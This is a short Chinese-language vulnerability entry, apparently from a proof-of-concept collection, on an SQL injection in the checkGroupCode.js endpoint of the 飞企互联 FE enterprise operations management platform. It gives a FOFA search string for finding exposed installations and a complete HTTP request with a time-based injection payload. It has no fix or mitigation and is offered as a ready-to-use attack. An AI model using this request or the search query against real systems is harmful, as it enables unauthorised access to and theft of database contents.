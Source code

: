 # 飞企互联FE企业运营管理平台checkGroupCode.js接口存在SQL注入漏洞

飞企互联-FE企业运营管理平台接口/docexchangeManage/checkGroupCode.js 存在SQL注入漏洞，可获取数据库数据。

## fofa

```
app="飞企互联-FE企业运营管理平台"
```

## poc

```
GET /docexchangeManage/checkGroupCode.js%70?code=1%27;waitfor+delay+%270:0:4%27--+ HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

